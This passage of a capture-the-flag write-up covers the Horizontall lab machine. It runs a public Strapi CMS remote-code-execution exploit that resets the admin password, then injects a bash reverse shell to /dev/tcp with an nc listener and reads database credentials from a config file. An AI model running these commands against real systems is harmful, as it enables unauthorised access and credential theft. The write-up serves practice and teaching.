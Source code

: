 I didn't know if it is the correct version for exploit. I just used it and got RCE. The vulnerability exists because of not proper input sanitization. With this lack, we can do command injection in JSON POST data. Info about vulnerability: [https://bittherapy.net/post/strapi-framework-remote-code-execution/](https://bittherapy.net/post/strapi-framework-remote-code-execution/).

Using the complete exploit([https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239)):

```bash
┌──(root💀kali)-[/tmp]
└─# python3 strapi-exploi.py http://api-prod.horizontall.htb/
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMzMTk3OTgwLCJleHAiOjE2MzU3ODk5ODB9.ZRc8QtD2uVRFikoFic6FKpRAhvHgMtguFj4KSDfiOE8

$> /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.15/5555 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>

$>
```

```bash
┌──(root💀kali)-[~]
└─# nc -lnvp 5555                                                                                                                                                                                                                        1 ⨯
listening on [any] 5555 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.105] 33220
bash: cannot set terminal process group (1885): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$
```

## Privilege escalation

Checking configs on credentials:

```bash
strapi@horizontall:~/myapi/config/environments$ cat development/database.json
cat development/database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
```